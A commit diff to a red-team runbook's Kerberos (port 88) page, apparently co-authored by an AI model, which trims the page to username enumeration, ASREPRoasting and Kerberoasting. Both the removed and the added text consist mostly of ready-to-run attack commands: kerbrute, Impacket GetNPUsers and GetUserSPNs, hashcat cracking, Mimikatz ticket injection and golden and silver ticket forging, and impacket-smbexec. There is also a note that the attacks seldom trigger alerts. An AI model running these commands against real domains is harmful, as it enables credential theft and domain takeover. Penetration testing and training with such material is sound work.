

Before and after one commit to aelder202/red-team-runbook, an MkDocs documentation site: the page built from docs/information-gathering/service-analysis/kerberos-88.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Review Kerberos page: trim post-exploitation attacks, fix placeholders, rewrite to practitioner style
Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/docs/information-gathering/service-analysis/kerberos-88.md
+++ b/docs/information-gathering/service-analysis/kerberos-88.md
@@ -1,113 +1,51 @@
-```table-of-contents
+# Kerberos (88)
+
+!!! tip "Start here"
+    Port 88 open means you're looking at a domain controller. Start with username enumeration (no creds needed): `kerbrute userenum -d example.com --dc 10.10.10.10 userlist.txt`. Then immediately try ASREPRoasting — accounts without pre-auth required hand you crackable hashes.
+
+---
+
+## Enumeration
+
+```bash
+nmap -p 88 --script krb5-enum-users 10.10.10.10
 ```
 
-!!! tip "Start here"
-    Enumerate valid usernames without credentials: `kerbrute userenum -d <domain> --dc <target> userlist.txt`. Then immediately try ASREPRoasting against those users: `GetNPUsers.py <domain>/ -usersfile users.txt -dc-ip <target>` — accounts without pre-auth required hand you crackable hashes with no password needed.
+---
 
-## Enumeration
-### Banner Grabbing
+## Username Enumeration
+
 ```bash
-nmap -p 88 -sV --script=krb5-enum-users,krb5-info <target-ip>
+kerbrute userenum -d example.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 ```
 
-If Kerberos is running on a Windows Server, the target is likely a **Domain Controller**.
-#### Enumerating the DC
-If LDAP is open (389), retrieve DC information:
+---
+
+## ASREPRoasting (No Credentials)
+
+Accounts with pre-authentication disabled return a crackable AS-REP hash without any password.
+
 ```bash
-ldapsearch -x -h <dc-ip> -b "dc=domain,dc=com" | grep -i "dc="
-```
-## Authentication Attacks
-### Enumerate Valid Usernames
-```bash
-./kerbrute userenum -d <domain> --dc <target-ip> userlist.txt
+GetNPUsers.py example.com/ -usersfile users.txt -dc-ip 10.10.10.10 -format hashcat -outputfile asrep-hashes.txt
 ```
 
-Note: `kerbrute` file located in Cracks
-
-## Pre-Authentication Bruteforce (AS-REP Roasting)
-**ASREPRoasting** targets accounts with **Do not require Kerberos pre-authentication** enabled, allowing attackers to **extract AS-REP hashes** for offline cracking.
 ```bash
-GetNPUsers.py -dc-ip <target-ip> -usersfile userlist.txt -format hashcat <domain>/ -outputfile asrep-hashes.txt
+hashcat -m 18200 asrep-hashes.txt /usr/share/wordlists/rockyou.txt
 ```
 
-https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
+---
 
-Cracking hashes:
+## Kerberoasting (Requires Valid Credentials)
+
+Request TGS tickets for accounts with SPNs — the encrypted tickets are crackable offline.
+
 ```bash
-hashcat -m 18200 asrep-hashes.txt /usr/share/wordlists/rockyou.txt --force
+GetUserSPNs.py example.com/<user>:<pass> -dc-ip 10.10.10.10 -request -outputfile tgs-tickets.txt
 ```
 
-### Check for AS-REP Roastable Accounts
-```powershell
-Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object { $_.DoesNotRequirePreAuth -eq $true }
+```bash
+hashcat -m 13100 tgs-tickets.txt /usr/share/wordlists/rockyou.txt
 ```
 
-## Kerberoasting (Extracting TGS Tickets for Cracking)
-**Kerberoasting** exploits **misconfigured service accounts** to extract **TGS tickets**, which contain NTLM hashes crackable offline.
-### Enumerate Service Accounts
-```powershell
-Set-ExecutionPolicy Unrestricted
-Import-Module .\PowerView.ps1
-Get-NetUser -SPN
-```
-
-### Request a TGS Ticket
-```bash
-GetUserSPNs.py -dc-ip <target-ip> <domain>/<user>:<password> -outputfile tgs-tickets.txt
-```
-
-#### Cracking the Ticket hash using Hashcat
-```bash
-hashcat -m 13100 tgs-tickets.txt rockyou.txt --force
-```
-
-## Pass-the-Ticket (Using Captured TGT/TGS)
-If you obtain a TGT/TGS, use Mimikatz to inject and authenticate without knowing the password.
-### Extract and Inject a Ticket
-```bash
-mimikatz
-sekurlsa::tickets /export
-kerberos::ptt <ticket.kirbi>
-```
-Once injected, access the target service without credentials.
-
-## Silver Ticket Attack
-A Silver Ticket allows an attacker to forge TGS tickets for specific services.
-
-### Forge a Silver Ticket with Mimikatz
-```
-mimikatz
-kerberos::golden /domain:<domain> /sid:<SID> /target:<dc-ip> /service:cifs /rc4:<NTLM-hash>
-```
-A forged Silver Ticket grants persistent access to services like SMB, RDP, or MSSQL.
-
-## Golden Ticket Attack (Full Domain Control)
-A Golden Ticket allows an attacker to forge any Kerberos ticket and gain domain admin access.
-### Generate a Golden Ticket
-```
-mimikatz
-kerberos::golden /user:Administrator /domain:<domain> /sid:<domain-SID> /krbtgt:<NTLM-hash> /ticket:<golden-ticket.kirbi>
-```
-
-Once created, inject the ticket:
-```
-kerberos::ptt golden-ticket.kirbi
-```
-
-## Tools Quick Reference
-
-GetUserSPNs.py (Kerberoasting):
-```
-GetUserSPNs.py <DOMAIN>/<user>:<pass> -request -dc-ip <target-ip>
-```
-
-GetNPUsers.py (ASREPRoasting):
-```
-GetNPUsers.py <DOMAIN>/ -usersfile users.txt -dc-ip <target-ip>
-```
-
-Pass-the-ticket (Impacket example)**:
-```
-export KRB5CCNAME=user.ccache
-impacket-smbexec -k -no-pass <DOMAIN>/<user>@<target-ip>
-```
+!!! tip "Real-world"
+    ASREPRoasting is low-noise and requires zero credentials — run it as soon as you have a username list. Kerberoasting requires a foothold but is very effective against service accounts that haven't had their passwords rotated. Both attacks are noisy in event logs (4768/4769) but rarely alert on modern deployments unless specifically tuned.
````
